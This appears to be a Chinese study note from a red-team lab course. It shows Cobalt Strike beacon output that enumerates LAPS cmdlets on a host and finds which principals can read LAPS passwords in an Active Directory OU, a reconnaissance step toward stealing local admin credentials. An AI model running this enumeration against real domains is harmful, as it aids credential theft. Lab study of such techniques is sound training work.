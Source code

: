 ```
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS                                
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS                                
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS   
```


假如在srv-1上运行上面命令,无任何显示
```
beacon> powershell Get-Command *AdmPwd*
[*] Tasked beacon to run: Get-Command *AdmPwd*
[+] host called home, sent: 119 bytes
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
srv-1

```



```Find-AdmPwdExtendedRights```将列出允许读取给定 OU 中机器的 LAPS 密码的主体

我这里的输出跟教材不一样，会报一个错
```
beacon> powershell Find-AdmPwdExtendedRights -Identity Workstations | fl
[*] Tasked beacon to run: Find-AdmPwdExtendedRights -Identity Workstations | fl
[+] host called home, sent: 207 bytes
[+] received output:
#< CLIXML


Name              : Workstations
DistinguishedName : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Status            : Delegated

Name              : Workstations
DistinguishedName : OU=Workstations,DC=cyberbotic,DC=io
Status            : Delegated

